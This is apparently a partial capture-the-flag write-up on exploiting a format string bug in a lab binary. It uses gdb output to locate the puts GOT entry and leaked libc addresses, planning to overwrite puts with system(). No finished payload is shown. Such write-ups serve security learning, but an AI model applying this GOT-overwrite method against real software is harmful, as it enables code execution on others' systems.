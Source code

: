 ```printf("Okay I'll be nice. Here's the address of setvbuf in libc: %p\n", &setvbuf);```
Send a format string payload that overwrrites it in GOt table 

Now we need to  find out the GOT entry address of the standard libc function puts() to overwrite this address with the address of system()
using gbd 

<img width="1487" height="741" alt="image" src="https://github.com/user-attachments/assets/c7c89c65-59b6-4dab-a6d5-8ccc5a36748d" />

<img width="1193" height="842" alt="image" src="https://github.com/user-attachments/assets/0c24b65e-1363-4ed1-872a-c8ae6c442fd2" />


Tbh i had a bit of confusion here as to find out which one should call the entry to GOT 

However this line stood out 
```
0x00000000004012f2 <+175>:   call   0x401080 <puts@plt>
```
The PLT entry at 0x401080 doesn't call the real puts() directly. Instead, it does the following:

Reads the actual address of puts from the GOT

Calls that address

So, effectively:

puts@plt → uses an indirect call through puts@got



So i need to overwrite the GOT entry for puts (i.e., puts@got) with the address of another function like system()



Moving onto dissasembling the plt 
```
(gdb) disas  0x401080
Dump of assembler code for function puts@plt:
   0x0000000000401080 <+0>:     endbr64
   0x0000000000401084 <+4>:     bnd jmp *0x2f8d(%rip)        # 0x404018 <puts@got.plt>
   0x000000000040108b <+11>:    nopl   0x0(%rax,%rax,1)
End of assembler dump.
(gdb)
```

Good thing the binary has no PIE or ASLR enabled otherwise the adress would change 


```
(gdb) x/gx &setvbuf
0x7ffff7e5a3f0 <setvbuf>:       0x55415641fa1e0ff3
(gdb) x/gx &system
0x7ffff7e2f760 <system>:        0x74ff8548fa1e0ff3
(gdb)
